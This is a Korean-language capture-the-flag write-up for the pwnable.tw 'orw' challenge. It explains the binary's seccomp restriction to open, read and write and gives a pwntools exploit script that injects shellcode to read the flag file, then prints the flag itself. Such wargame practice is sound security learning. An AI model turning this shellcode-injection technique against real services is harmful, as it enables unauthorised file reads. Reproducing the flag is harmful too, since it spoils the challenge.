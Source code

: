 ```yaml
---
layout: post
title: "[pwnable.tw] orw"
comments : true
category : War Game
---
```


# 문제
***

orw 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE
RWX:      Has RWX segments
```

file 명령어의 결과는 다음과 같다.
```
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

orw 바이너리 코드
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");   // prctl(38, 1, 0, 0, 0); prctl(22, 2, &v1);
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

HITCON-Training lab2 문제와 비슷하게 orw_seccomp() 내에서 prctl 함수를 이용하여 사용 가능한 syscall을 제한한다. 

1. execve는 execve 호출 없이는 수행 할 수 없는 권한을 부여하지 않는다. (HITCON-Training lab2 write-up에서 이 부분 관련 내용 조금 틀린듯...)
2. 사용할 수 있는 syscall을 open, read, write로 제한한다. 

## exploit 방법
pwntools의 shellcraft를 이용해서 /home/orw/flag 파일을 open 하고 buffer에 read 한 뒤 화면에 write하는 어셈블리를 짠다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

#file_path="/home/sungyun/round3/orw/orw"
#p=process(file_path)

p=remote("chall.pwnable.tw", 10001)

p.recvuntil("shellcode:")

pay=pwnlib.shellcraft.open('/home/orw/flag')
pay+=pwnlib.shellcraft.read('eax','esp',0x100)
pay+=pwnlib.shellcraft.write(1,'esp',0x100)

exploit=asm(pay,arch='i386')

p.send(exploit)

print p.recvline()
```

flag : FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}

